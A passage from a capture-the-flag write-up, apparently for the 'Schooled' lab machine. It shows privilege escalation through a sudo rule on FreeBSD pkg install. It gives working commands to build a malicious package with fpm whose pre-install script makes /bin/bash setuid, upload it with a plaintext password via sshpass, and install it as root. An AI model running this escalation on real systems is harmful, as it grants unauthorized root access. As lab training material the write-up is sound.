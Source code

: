 Cracked hash worked for user "jamie" on ssh login.

User "jamie" have sudo right to run `/usr/sbin/pkg` as any user on the box with NOPASSWD.
```bash
jamie@Schooled:~ $ sudo -l
User jamie may run the following commands on Schooled:
    (ALL) NOPASSWD: /usr/sbin/pkg update
    (ALL) NOPASSWD: /usr/sbin/pkg install *
```

user "jamie" can install any freebsd package with sudo.

found exploit from [gtfobins](https://gtfobins.github.io/gtfobins/pkg/), *this is same as `sudo snap` on [armageddon box](../armageddon/README.md#snap-install-with-sudo)*.


Create milicious package from fpm.
```bash
COMMAND='chmod +s /bin/bash'
TF=$(mktemp -d)
echo "$COMMAND" > $TF/x.sh
fpm -n x -s dir -t freebsd -a all --before-install $TF/x.sh $TF
```

If `fpm` is not install
```bash
sudo gem install --no-document fpm
sudo apt-get install squashfs-tools
```

upload package with scp
```bash
sshpass -p '!QAZ2wsx' scp ./x-1.0.txz jamie@schooled.htb:/home/jamie/pkg
```

And finally run
```bash
sudo -u root /usr/sbin/pkg install -y --no-repo-update ./x-1.0.txz
```

![](screenshots/schooled-rooted.png)